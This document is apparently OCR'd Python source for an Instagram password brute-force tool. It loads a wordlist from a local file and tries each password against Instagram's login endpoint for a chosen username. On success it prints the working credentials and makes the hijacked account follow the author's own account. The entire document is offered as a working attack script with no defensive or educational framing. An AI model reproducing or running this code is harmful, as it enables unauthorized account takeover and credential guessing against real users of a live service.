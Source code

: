 import requests

import json

import time

import os



filename = 'pass.txt'

if os.path.isfile(filename):

	with open(filename) as f:

	    passwords = f.read().splitlines()

	    if (len(passwords) > 0):

	    	print ('%s Passwords loads successfully' % len(passwords))

else:

	print ('Please create passwords file (pass.txt)')

	exit()









def userExists(username):

	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 

	if (r.status_code == 404):

		print ('User not found')

		return False

	elif (r.status_code == 200):

		followdata = json.loads(r.text)

		fUserID = followdata['user']['id']

		return {'username':username,'id':fUserID}





def Login(username,password):

	sess = requests.Session()

	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})

	sess.headers.update({

		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',

		'x-instagram-ajax':'1',

		'X-Requested-With': 'XMLHttpRequest',

		'origin': 'https://www.instagram.com',

		'ContentType' : 'application/x-www-form-urlencoded',

		'Connection': 'keep-alive',

		'Accept': '*/*',

		'Referer': 'https://www.instagram.com',

		'authority': 'www.instagram.com',

		'Host' : 'www.instagram.com',

		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',

		'Accept-Encoding' : 'gzip, deflate'

	})



	#first time -> to get csrftoken

	r = sess.get('https://www.instagram.com/') 

	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})



	data = {'username':username, 'password':password}

	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)

	token = r.cookies.get_dict()['csrftoken']

	sess.headers.update({'X-CSRFToken' : token})

	#parse response

	data = json.loads(r.text)

	if (data['status'] == 'fail'):

		print (data['message'])

		return False

	

	if (data['authenticated'] == True):

		return sess #if we want to keep use session

	else:

		print ('Password incorrect [%s]' % password)

		return False







def follow(sess, username):

	username = userExists(username)

	if (username == False):

		return	

	else:

		userID = username['id']

		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)

		print (followReq.text)





username = str(input('Please enter a username: '))

username = userExists(username)

if (username == False):

	exit()

else:

	username = username['username']







delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 





for i in range(len(passwords)):

	password = passwords[i]

	sess = Login(username,password)

	if (sess):

		print ('Login success %s' % [username,password])



		#because i am cool

		follow(sess,'avr_amit')



	try:

		time.sleep(delayLoop)

	except KeyboardInterrupt:

		an = str(input('Type y/n to exit: '))

		if (an == 'y'):

			exit()

		else:

			continue
